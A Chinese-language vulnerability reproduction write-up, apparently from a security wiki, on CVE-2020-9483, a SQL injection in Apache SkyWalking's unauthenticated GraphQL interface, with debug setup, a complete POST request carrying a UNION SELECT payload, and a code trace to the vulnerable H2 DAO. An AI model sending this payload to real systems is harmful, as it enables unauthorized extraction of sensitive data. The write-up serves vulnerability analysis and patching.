 # Apache SkyWalking graphql SQL注入漏洞 CVE-2020-9483

## 漏洞描述

腾讯安全威胁情报中心监测到Apache SkyWalking发布更新，修复了一个SQL注入漏洞（编号：CVE-2020-9483）。远程攻击者可通过Apache SkyWalking默认开放的未授权GraphQL接口构造恶意请求包进行注入攻击，成功利用此漏洞可造成敏感数据泄漏。该漏洞等级为高危，腾讯安全专家建议相关企业尽快修复。

## 漏洞影响

<a-checkbox checked>Apache SkyWalking 6.0.0~6.6.0</a-checkbox></br>

<a-checkbox checked>Apache SkyWalking 7.0.0</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://archive.apache.org/dist/skywalking/6.5.0/apache-skywalking-apm-6.5.0.tar.gz</a-checkbox></br>

<a-checkbox checked>https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-6.5.0-src.tgz</a-checkbox></br>

## 漏洞复现

下载编译好的源码后，进入bin目录，修改 oapService.sh  通过IDEA进行远程调试

```sh
for i in "$OAP_HOME"/oap-libs/*.jar
do
    CLASSPATH="$i:$CLASSPATH"
done

OAP_OPTIONS=" -Doap.logDir=${OAP_LOG_DIR}"

eval exec "\"$_RUNJAVA\" ${JAVA_OPTS} ${OAP_OPTIONS} -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -classpath $CLASSPATH org.apache.skywalking.oap.server.starter.OAPServerStartUp \
        2>${OAP_LOG_DIR}/oap.log 1> /dev/null &"

if [ $? -eq 0 ]; then
    sleep 1
	echo "SkyWalking OAP started successfully!"
else
	echo "SkyWalking OAP started failure!"
	exit 1

```

配置IDEA  JVM Debug![img](/assets/PeiQi-Wiki/img/1650592340016-fcbc91f2-5443-4dd3-b726-5fabfe109617.png)

查看CVE的修复commit寻找修复的地方

![img](/assets/PeiQi-Wiki/img/1650592523770-e6ea155d-4e62-426a-82d1-c9acd7359846.png)

打下断点并发送Payload请求包

```php
POST /graphql HTTP/1.1
Host:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: max-age=0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Length: 416

{
    "query": "query queryData($duration: Duration!) {globalP99: getLinearIntValues(metric: {name: \"all_p99\", id: \"') UNION ALL SELECT NULL,CONCAT('~', H2VERSION(), '~')--\" }, duration: $duration) {  values { value } }}",
    "variables": {
        "duration": {
            "end": "2020-08-07 1418",
            "start": "2020-08-07 1417",
            "step": "MINUTE"
        }
    }
}
```

![img](/assets/PeiQi-Wiki/img/1650592654329-a18480bd-82f4-41df-bdb5-d99056a6637a.png)

在 org.apache.skywalking.oap.query.graphql.resolver 中我们可以看到参数 metrics.getId() 没有过滤就直接传入 getLinearIntValues

![img](/assets/PeiQi-Wiki/img/1650592691209-1c8ccadd-47d7-4c67-9cbe-4a6f74738957.png)

跟随来到 org.apache.skywalking.oap.server.core.query.MetricQueryService.getLinearIntValues(MetricQueryService.java:96) 

![img](/assets/PeiQi-Wiki/img/1650592955431-233dff33-a8c7-4d6f-a149-472005e5aee5.png)

来到 org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao.H2MetricsQueryDAO.getLinearIntValues(H2MetricsQueryDAO.java:117)，这里就将拼接的语句带入数据库进行查询，造成SQL注入

![img](/assets/PeiQi-Wiki/img/1650593267061-cc90dfbe-c500-42a8-813c-f76d13383367.png)

调用栈如下

```java
getLinearIntValues:117, H2MetricsQueryDAO (org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao)
getLinearIntValues:96, MetricQueryService (org.apache.skywalking.oap.server.core.query)
getLinearIntValues:60, MetricQuery (org.apache.skywalking.oap.query.graphql.resolver)
execute:87, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:81, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:54, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:101, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:105, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
```